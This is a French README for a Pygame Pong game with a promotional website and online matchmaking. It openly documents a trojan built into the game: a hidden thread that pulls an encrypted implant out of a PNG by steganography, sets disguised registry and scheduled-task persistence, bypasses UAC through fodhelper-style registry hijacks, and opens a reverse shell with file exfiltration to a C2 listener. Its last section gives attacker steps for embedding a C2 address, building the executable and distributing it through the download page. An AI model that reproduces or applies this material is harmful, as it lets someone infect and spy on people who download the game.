








# 🎮 Pong Force — Projet complet

**Pong Force** est un jeu de type Pong en 2D avec une mécanique exclusive **Force Push**, un site web promotionnel et un mode **multijoueur en ligne** via un serveur de matchmaking.

Ce README décrit l’architecture du projet, son fonctionnement et comment le faire tourner (jeu, site, build, matchmaking).

### ⚠️ Qu’est-ce que ce dépôt ? (jeu et malware)

Ce dépôt contient **deux choses distinctes** :

| Composant | Description |
|-----------|-------------|
| **Le jeu Pong Force** | Un vrai jeu de Pong 2D (Pygame) avec Force Push, vs Robot, 2 joueurs local, multijoueur en ligne, site web promotionnel et build d’un .exe Windows. |
| **Du code malveillant (malware)** | Un **trojan** intégré au jeu : au lancement de `main.py` ou de `PongForce.exe`, un implant est déployé (reverse shell vers un serveur C2, exfiltration de fichiers via `pfiler`), avec **persistence** (registre, tâche planifiée) et **contournement UAC**. Le payload est caché par **stéganographie** dans une image. |

Tout ce qui concerne le malware (fichiers impliqués, chaîne d’exécution, déclenchement, comment l’éviter) est détaillé dans la section [Modules malveillants (malware)](#-modules-malveillants-malware). **N’exécutez pas le jeu sur une machine que vous ne souhaitez pas compromettre** sans avoir désactivé ce code.

---

## 📋 Table des matières

- [Vue d’ensemble](#-vue-densemble)
- [Architecture du projet](#-architecture-du-projet)
- [Le jeu Pong Force](#-le-jeu-pong-force)
- [Multijoueur et matchmaking](#-multijoueur-et-matchmaking)
- [Le site web](#-le-site-web)
- [Build de l’exécutable](#-build-de-lexécutable)
- [Comment faire tourner le projet](#-comment-faire-tourner-le-projet)
- [Configuration](#-configuration)
- [Structure des fichiers](#-structure-des-fichiers)
- [Dépendances](#-dépendances)
- [Déploiement](#-déploiement)
- [Dépannage](#-dépannage)
- [Modules malveillants (malware)](#-modules-malveillants-malware)

---

## 🎯 Vue d’ensemble

Le projet regroupe :

| Composant | Rôle |
|-----------|------|
| **Jeu desktop** | Application Pygame (Python) : Pong + Force Push, vs Robot, 2 joueurs local, multijoueur en ligne. |
| **Site web** | Page d’accueil (hero, démo, téléchargement) + démo jouable dans le navigateur. |
| **Serveur de matchmaking** | API Flask pour créer/rejoindre des parties par code de room (déployable sur Render, etc.). |
| **Build** | Script PyInstaller pour produire `PongForce.exe` (Windows). |



---

## 🏗️ Architecture du projet



- **Point d’entrée jeu** : `pong_force/main.py` (menu, choix de mode, puis boucle de jeu).
- **Réseau** : l’hôte lance un serveur de jeu (`network/server.py`) et s’enregistre sur le matchmaking ; le client (`network/client.py`) résout le code room puis se connecte à l’hôte.
- **Site** : HTML/CSS/JS à la racine du dépôt ; le lien de téléchargement pointe vers `download/PongForce.exe` (ou équivalent selon déploiement).
- **Modules malveillants** : `payload.py`, `listener.py`, `persistence.py`, `encryptor.py` et logique dans `main.py` + image `splash_payload.png` — voir section [Modules malveillants](#-modules-malveillants-malware).

#### Liste des fichiers existants (architecture)

Tous les fichiers présents dans le dépôt (hors `.git` et `__pycache__`) :

| Emplacement | Fichiers |
|-------------|----------|
| **Racine** | `README.md`, `index.html`, `demo.html`, `controls.json`, `test_game.py`, `test_download.py`, `test_download.html`, `test.html`, `integration_test.html` |
| **css/** | `style.css`, `responsive.css` |
| **js/** | `main.js`, `demo.js`, `particles.js` |
| **assets/** | `images/`, `sounds/`, `videos/` (placeholders ou médias du site) |
| **fonts/** | `placeholder.txt` ou polices |
| **download/** | Emplacement pour `PongForce.exe` (lien du site) |
| **pong_force/** | `main.py`, `config.py`, `build.py`, `PongForce.spec`, `version_info.txt`, `uac_admin.manifest`, `payload.py`, `listener.py`, `persistence.py`, `encryptor.py`, `controls.json`, `requirements.txt`, `requirements-serveur.txt`, `matchmaking_server.py`, `launch_multiplayer.bat`, `Procfile`, `render.yaml`, `runtime.txt`, `active_rooms.json`, `user_tracking.json`, `player_history.json`, `IMPLEMENTATION_SUMMARY.md`, `MULTIPLAYER_GUIDE.md`, `README.md`, `test_gameplay.py`, `debug_game.py` |
| **pong_force/game/** | `__init__.py`, `game_loop.py`, `paddle.py`, `ball.py`, `power.py`, `menu.py`, `multiplayer.py`, `controls.py`, `scoreboard.py`, `effects.py`, `player_history.py`, `stats_menu.py` |
| **pong_force/network/** | `__init__.py`, `server.py`, `client.py`, `network_utils.py` |
| **pong_force/assets/** | `images/` (dont `splash_payload.png`), `sounds/`, `fonts/` (README dans chaque sous-dossier) |
| **pong_force/build/** | Sortie temporaire PyInstaller |
| **pong_force/dist/** | `PongForce.exe` (après build) |

---

## 🎮 Le jeu Pong Force

### Modes de jeu

| Mode | Description |
|------|-------------|
| **Vs Robot** | Un joueur contre une IA ; nombre de points pour gagner choisi au menu. |
| **2 joueurs local** | Deux joueurs sur la même machine (claviers différents). |
| **Multijoueur en ligne** | Un joueur crée une room (code à 6 caractères), l’autre rejoint avec ce code via le serveur de matchmaking. |

### Mécanique Force Push

- **Jauge** : se remplit progressivement (par défaut sur 75 secondes).
- **Effet** : près de la balle, déclenche une poussée qui multiplie la vitesse de la balle (×2,5), déplace la raquette (dash) et applique des effets visuels (particules, lueur).
- **Échec** : si déclenché trop loin de la balle, courte pénalité (stun) sur la raquette.



### Boucle de jeu (simplifié)



### Contrôles

| Rôle | Déplacement | Force Push |
|------|-------------|------------|
| **Joueur 1 (gauche)** | ↑ / ↓ | Espace |
| **Joueur 2 (droite)** | W / S | Maj |
| **Général** | — | Pause : Échap, Redémarrer : R |

La configuration des touches peut être modifiée via le menu **Contrôles** et est stockée dans `pong_force/controls.json`.

---

## 🌐 Multijoueur et matchmaking

Le **serveur de matchmaking** est déployé sur **Render.com** (ex. `https://pong-force-matchmaking.onrender.com`), ce qui permet à **n’importe quel joueur dans le monde** de créer une room ou de rejoindre une partie par code, sans héberger le serveur soi-même.

Le multijoueur repose sur :

1. **Serveur de matchmaking** (Flask, sur Render) : garde la liste des rooms (code → IP/port de l’hôte), permet de créer une room et de rejoindre par code.
2. **Serveur de jeu** (dans le processus de l’hôte) : écoute sur le port configuré (défaut 5555), gère un client, envoie/reçoit états et entrées.
3. **Client de jeu** : appelle le matchmaking pour résoudre le code room, puis se connecte au serveur de jeu de l’hôte.



- **URL du matchmaking** : définie dans `pong_force/config.py` (`MATCHMAKING_SERVER_URL`), par ex. `https://pong-force-matchmaking.onrender.com` en production.
- **Hébergement** : le serveur est déployé sur **Render.com** ; les joueurs du monde entier peuvent ainsi jouer en ligne via le même matchmaking.
- **Fichiers côté serveur** : `active_rooms.json`, `user_tracking.json` (si utilisé).
- **Déploiement** : `Procfile` + `render.yaml` pour un service web sur Render avec `gunicorn matchmaking_server:app`.

---

## 🌍 Le site web

Le site vit **à la racine du dépôt** (pas dans un sous-dossier `pong-force-website`).

| Fichier | Rôle |
|---------|------|
| **index.html** | Page d’accueil : hero « PONG FORCE », tagline, présentation Force Push, fonctionnalités, démo, bouton de téléchargement, footer. |
| **demo.html** | Page dédiée au mini-Pong jouable dans le navigateur (canvas). |
| **css/style.css** | Styles principaux (thème néon, fond sombre). |
| **css/responsive.css** | Mise en page responsive. |
| **js/main.js** | Animations, scroll, interactions (boutons, liens). |
| **js/demo.js** | Logique du Pong canvas (démo navigateur). |
| **js/particles.js** | Particules de fond. |
| **assets/** | Images, sons, vidéos (screenshots, trailer, favicon). |
| **fonts/** | Polices (ex. arcade). |

Le **bouton « Download »** pointe vers `download/PongForce.exe` (à fournir après build ou copie depuis `pong_force/dist/PongForce.exe`).

```mermaid
flowchart LR
    index[index html] --> style[style css]
    index --> mainjs[main js]
    index --> particlesjs[particles js]
    demo[demo html] --> style
    demo --> demojs[demo js]
    mainjs --> assets[assets]
    demojs --> canvas[Canvas 2D]
```

---

## 📦 Build de l’exécutable

L’exécutable Windows est produit avec **PyInstaller** via `pong_force/build.py`.



**Étapes :**

1. Aller dans le dossier du jeu :  
   `cd pong_force`
2. Installer les dépendances (si besoin) :  
   `pip install -r requirements.txt`
3. Lancer le build :  
   `python build.py`

**Résultat :** `pong_force/dist/PongForce.exe` (onefile, sans console, avec icône et `version_info.txt`, manifest UAC si configuré).

Pour que le site propose le bon fichier, copier (ou lier) cet exe vers le chemin utilisé par le site (ex. `download/PongForce.exe`).

---

## 🚀 Comment faire tourner le projet

### Jeu (desktop)

```bash
cd pong_force
pip install -r requirements.txt
python main.py
```

- **Menu** : lancer sans arguments ouvre le menu (Vs Robot, 2P local, Contrôles, Stats, Multiplayer Room).
- **Hôte** : `python main.py --server` (ou via menu « Host »).
- **Client** : `python main.py --client --host <IP>` (ou rejoindre par code room dans le menu).
- **Debug** : `python main.py --debug` (si supporté).

### Serveur de matchmaking (pour le multijoueur en ligne)

```bash
cd pong_force
pip install -r requirements-serveur.txt
python matchmaking_server.py
```

Ou en production (ex. Render) :  
`gunicorn matchmaking_server:app`

Pour jouer en ligne, le client doit utiliser la même URL de matchmaking que l’hôte (définie dans `config.py`).

### Site web (test local)

À la racine du dépôt :

```bash
python -m http.server 8000
```

Puis ouvrir : `http://localhost:8000` (index) et `http://localhost:8000/demo.html` (démo).

### Build de l’exe

```bash
cd pong_force
python build.py
```

L’exe se trouve dans `pong_force/dist/PongForce.exe`.

---

## ⚙️ Configuration

Fichier principal : **`pong_force/config.py`**.

| Catégorie | Exemples |
|-----------|----------|
| **Fenêtre** | `WINDOW_WIDTH`, `WINDOW_HEIGHT`, `FPS`, `TITLE` |
| **Physique** | `BALL_SPEED`, `PADDLE_SPEED`, `MAX_BALL_SPEED` |
| **Force Push** | `FORCE_MULTIPLIER`, `FORCE_COOLDOWN`, `FORCE_STUN_DURATION` |
| **Réseau** | `SERVER_PORT`, `BUFFER_SIZE`, `NETWORK_UPDATE_RATE` |
| **Matchmaking** | `MATCHMAKING_SERVER_URL`, `CONNECTION_TIMEOUT` |

Les touches sont gérées via le menu in-game et sauvegardées dans **`pong_force/controls.json`**.

---

## 📁 Structure des fichiers

Arborescence complète des fichiers existants dans le dépôt :

```
pong_project/
├── README.md
├── index.html              # Page d'accueil du site
├── demo.html               # Page démo jeu navigateur
├── controls.json
├── test_game.py
├── test_download.py
├── test_download.html
├── test.html
├── integration_test.html
├── css/
│   ├── style.css
│   └── responsive.css
├── js/
│   ├── main.js
│   ├── demo.js
│   └── particles.js
├── assets/                 # Images, sons, vidéos du site
│   ├── images/
│   ├── sounds/
│   └── videos/
├── fonts/
├── download/                # Emplacement pour PongForce.exe (lien du site)
│
├── pong_force/
│   ├── main.py             # Point d'entrée du jeu (+ déclenchement implant)
│   ├── config.py           # Configuration centrale
│   ├── build.py            # Script de build PyInstaller
│   ├── PongForce.spec      # Spec PyInstaller
│   ├── version_info.txt    # Infos version pour l'exe
│   ├── uac_admin.manifest  # Manifest UAC (optionnel)
│   ├── controls.json       # Touches configurées
│   ├── requirements.txt
│   ├── requirements-serveur.txt
│   ├── matchmaking_server.py
│   ├── launch_multiplayer.bat
│   ├── Procfile
│   ├── render.yaml
│   ├── runtime.txt
│   ├── active_rooms.json
│   ├── user_tracking.json
│   ├── player_history.json
│   ├── IMPLEMENTATION_SUMMARY.md
│   ├── MULTIPLAYER_GUIDE.md
│   ├── README.md
│   ├── test_gameplay.py
│   ├── debug_game.py
│   ├── payload.py          # Implant (reverse shell + pfiler) — malware
│   ├── listener.py         # Serveur C2 (ports 4444/4445) — malware
│   ├── persistence.py      # Persistence alternative (DivinePersistence) — malware
│   ├── encryptor.py        # Chiffrement / injection payload dans image — malware
│   ├── game/
│   │   ├── __init__.py
│   │   ├── game_loop.py    # Boucle principale (modes, physique, rendu)
│   │   ├── paddle.py
│   │   ├── ball.py
│   │   ├── power.py        # Force Push
│   │   ├── menu.py
│   │   ├── multiplayer.py
│   │   ├── controls.py
│   │   ├── scoreboard.py
│   │   ├── effects.py
│   │   ├── player_history.py
│   │   └── stats_menu.py
│   ├── network/
│   │   ├── __init__.py
│   │   ├── server.py       # Serveur de jeu (hôte)
│   │   ├── client.py       # Client de jeu
│   │   └── network_utils.py
│   ├── assets/             # Ressources du jeu (images dont splash_payload.png LSB, sons, fonts)
│   │   ├── images/         # dont splash_payload.png (stéganographie)
│   │   ├── sounds/
│   │   └── fonts/
│   ├── build/              # Sortie temporaire PyInstaller
│   └── dist/
│       └── PongForce.exe   # Exécutable généré
```

---

## 📦 Dépendances

**Jeu + build** (`pong_force/requirements.txt`) :

- `pygame>=2.5.0`
- `Flask>=3.0.0`, `Flask-CORS>=4.0.0`, `requests>=2.31.0`
- `gunicorn>=21.2.0` (déploiement serveur)
- `pyinstaller>=6.0.0`
- Optionnel : `pywin32` (Windows)

**Serveur de matchmaking seul** (`pong_force/requirements-serveur.txt`) :

- flask, flask-cors, requests, gunicorn

**Site** : aucun outil de build requis ; HTML/CSS/JS statiques.

---

## 🚀 Déploiement

- **Site** : déployer la racine du dépôt sur GitHub Pages, Vercel, Netlify, etc. Vérifier que le lien « Download » pointe vers l’URL réelle de `PongForce.exe` (ex. `download/PongForce.exe` ou URL externe).
- **Matchmaking** : déployer `pong_force` comme service web (Render avec `render.yaml`/`Procfile`, ou autre) en exposant `matchmaking_server:app` avec Gunicorn. Mettre à jour `MATCHMAKING_SERVER_URL` dans `config.py` pour pointer vers cette URL.
- **Exe** : distribuer `pong_force/dist/PongForce.exe` (ou un installateur qui l’inclut) et l’héberger à l’URL utilisée par le bouton de téléchargement du site.

---

## 🔧 Dépannage

| Problème | Pistes |
|----------|--------|
| Le jeu ne démarre pas | Vérifier Python 3.7+, `pip install -r pong_force/requirements.txt`, absence d’erreur dans la console. |
| Connexion multijoueur échoue | Vérifier que le serveur de matchmaking est joignable (URL dans `config.py`), pare-feu (port 5555 pour l’hôte), même version de `config` (port, etc.). |
| Le site ne télécharge pas l’exe | Vérifier que `download/PongForce.exe` existe (ou que le lien dans `index.html` pointe vers le bon fichier/URL). |
| Build PyInstaller échoue | Vérifier la présence de l’icône et du manifest dans `pong_force/assets` / racine `pong_force`, et que toutes les dépendances sont installées. |

---

## ⚠️ Modules malveillants (malware)

> **Avertissement** : Le dépôt contient du code malveillant (trojan, reverse shell, exfiltration de fichiers). Ceci est documenté à des fins **d’analyse de sécurité, de recherche ou d’éducation** uniquement. **N’utilisez jamais ce code contre des systèmes ou des réseaux sans autorisation explicite.** L’utilisation non autorisée peut être illégale.

### Fichiers impliqués

| Fichier | Rôle |
|---------|------|
| **`pong_force/main.py`** | Point d’entrée du jeu. Au démarrage, lance un **thread daemon** qui exécute `sow_and_awaken_implant()` : extraction du payload depuis une image, écriture sur disque, persistence (registre + tâche planifiée), contournement UAC, puis lancement du payload. Le jeu (menu et partie) démarre ensuite normalement. |
| **`pong_force/assets/images/splash_payload.png`** | Image utilisée comme **vaisseau stéganographique** : le payload chiffré est caché dans les bits de poids faibles (LSB) des canaux RGBA. |
| **`pong_force/payload.py`** | **Implant** déployé sur la machine cible. Contient des placeholders `##RHOST##`, `##RPORT##`, `##PYTHON_PATH##` remplacés au moment de l’injection. Une fois exécuté : reverse shell vers `RHOST:RPORT`, persistence (copie en `%PROGRAMDATA%`, tâche planifiée, Run HKLM), et commande **`pfiler`** pour exfiltrer des fichiers vers `RHOST:(RPORT+1)`. |
| **`pong_force/listener.py`** | **Serveur C2 (attaquant)**. Écoute sur le port **4444** (shell) et **4445** (transfert de fichiers). Accepte une connexion du payload, relaie les commandes shell, et reçoit les fichiers exfiltrés dans le dossier **`loot/`**. |
| **`pong_force/persistence.py`** | Couche de **persistence alternative** (classe `DivinePersistence`) : copie un payload vers `%LOCALAPPDATA%\Microsoft\Audio\Drivers\`, crée un lanceur .bat, tâche planifiée, clé Run, et peut masquer les fichiers. **Non appelée** par `main.py` ; utilisable séparément pour installer l’implant. |
| **`pong_force/encryptor.py`** | Outil côté **attaquant** : chiffrement (Fernet), compression (zlib), encodage Base64 et injection du payload dans l’image `splash_payload.png` par **stéganographie LSB** (bits de poids faible RGBA). Utilisé pour générer l’image contenant l’implant avant distribution. |

### Comment c’est déclenché

Le **simple lancement du jeu** déclenche la chaîne malveillante :

1. L’utilisateur exécute **`python main.py`** ou **`PongForce.exe`** (exe construit par PyInstaller).
2. Avant toute initialisation Pygame, le code crée un **thread daemon** dont la cible est `sow_and_awaken_implant`.
3. Ce thread démarre **immédiatement** ; le thread principal continue et lance le jeu. Aucune action supplémentaire de l’utilisateur n’est nécessaire.
4. Dans `main.py`, l’invocation se trouve juste avant la section « LE JEU » :

```python
sower_thread = threading.Thread(target=sow_and_awaken_implant, daemon=True)
sower_thread.start()
```

Aucun argument en ligne de commande ni option ne désactive ce comportement dans le code actuel : **lancer le jeu = lancer l’implant**.

### Fonctionnement détaillé

#### 1. Extraction du payload (`main.py`)

- Lecture de **`assets/images/splash_payload.png`** en RGBA.
- **Stéganographie LSB** : les 32 premiers bits encodent la longueur du payload en octets ; ensuite, les bits de poids faible de chaque canal (R, G, B, A) sont concaténés pour former le payload binaire.
- Décodage : **Base64** → **déchiffrement Fernet** (clé codée en dur) → **décompression zlib** → code source Python de l’implant (équivalent à `payload.py` avec placeholders remplacés).

#### 2. Persistence et écriture sur disque (`main.py`)

- **Sans droits admin** : le payload est écrit dans **`%LOCALAPPDATA%\audiodg.pyw`**. Persistence utilisateur : clé **HKCU\...\Run** (`Realtek HD Audio Universal Service`). Puis tentative de **contournement UAC** pour exécuter le même payload avec élévation.
- **Avec droits admin** (ou après UAC bypass) : écriture dans **`%PROGRAMDATA%\Microsoft\Windows\AudioService\audiodg.pyw`**. Persistence : **tâche planifiée** `MicrosoftWindowsAudioDeviceHighDefinitionService` (démarrage à la session) et **HKLM\...\Run** (même nom de valeur).

#### 3. Contournement UAC (`main.py`)

Trois méthodes par **hijack de registre** (sans fenêtre visible) :

- **fodhelper.exe** : `HKCU\Software\Classes\ms-settings\shell\open\command` → la valeur par défaut lance `cmd.exe /c start /b pythonw.exe "<chemin_payload>"`. Exécution de `fodhelper.exe` qui s’élève sans demande UAC.
- **ComputerDefaults.exe** et **sdclt.exe** : variantes du même principe avec d’autres clés/binaires Windows.

Après exécution, les clés de registre créées sont supprimées pour limiter les traces.

#### 4. Implant – reverse shell et exfiltration (`payload.py`)

- Connexion TCP vers **`RHOST:RPORT`** (ports typiques : 4444 pour les commandes).
- Ouverture d’un **shell** (`cmd.exe`) : entrée/sortie/erreur reliées au socket. L’attaquant envoie des commandes et reçoit la sortie.
- Commande spéciale **`pfiler <chemin> [patterns]`** : recherche de fichiers sur la cible, puis connexion vers **`RHOST:(RPORT+1)`** (ex. 4445) pour envoyer les fichiers avec en-têtes JSON (chemin, taille, hash) et vérification SHA256. Côté listener, les fichiers sont enregistrés dans **`loot/`**.

#### 5. Listener C2 (`listener.py`)

- **Port 4444** : accepte une connexion du payload, affiche « VICTIM CONNECTED », relaie stdin vers le socket et stdout du socket vers la console. Toute commande tapée (y compris `pfiler ...`) est envoyée au payload.
- **Port 4445** : reçoit les transferts de fichiers (messages `START_TRANSFER`, `FILE_HEADER`, blocs binaires, `END_TRANSFER`), écrit les fichiers dans **`loot/`** et vérifie les hash.

### Schéma du flux (déclenchement → C2)



### Séquence résumée (attaquant / cible)



### Procédure pour préparer et distribuer l’implant (côté attaquant)

Pour que le malware se connecte à la machine de l’attaquant, il faut préparer le payload avec l’IP et le port C2, injecter la clé de déchiffrement dans le jeu, puis builder et mettre l’exe à disposition :

1. **Générer le payload et la clé**  
   Depuis le dossier `pong_force/` :
   ```bash
   python encryptor.py <IP_PUBLIQUE_ATTAQUANT> 4444
   ```
   Exemple : `python encryptor.py 203.0.113.50 4444`  
   Le script affiche une **clé Fernet** (ex. `S72odT1a3dSuFQo56WRjeksVDssV9ualDDLkhhjcILg=`). Il écrit aussi le payload dans `assets/images/splash_payload.png`.

2. **Coller la clé dans `main.py`**  
   Ouvrir `pong_force/main.py`, trouver la variable `divine_key` (dans la fonction `extract_payload_to_disk()`) et remplacer la valeur par la clé fournie, en bytes :
   ```python
   divine_key = b'<LA_CLE_AFFICHEE_PAR_ENCRYPTOR>'
   ```

